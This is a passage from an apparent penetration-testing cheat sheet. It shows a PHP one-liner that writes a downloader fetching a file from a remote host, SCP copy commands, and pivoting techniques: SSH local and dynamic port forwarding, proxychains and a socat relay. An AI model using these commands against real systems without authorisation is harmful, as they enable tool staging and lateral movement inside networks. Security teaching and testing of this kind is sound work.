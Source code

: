 ```
echo "<?php file_put_contents('nameOfFile', fopen('http://192.168.1.102/file', 'r')); ?>" > down2.php
```



SCP

```
# Copy a file:
scp /path/to/source/file.ext username@192.168.1.101:/path/to/destination/file.ext

# Copy a directory:
scp -r /path/to/source/dir username@192.168.1.101:/path/to/destination
```



## [](#header-2)Lateral Movement / Pivoting



SSH Local Port Forward

```bash
ssh <user>@<target> -L 127.0.0.1:8888:<targetip>:<targetport>
```



SSH Dynamic Port Forward

```bash
ssh -D <localport> user@host
nano /etc/proxychains.conf
127.0.0.1 <localport>
```



Socat Port Forward

```bash
./socat tcp-listen:5000,reuseaddr,fork tcp:<target ip>:5001
```

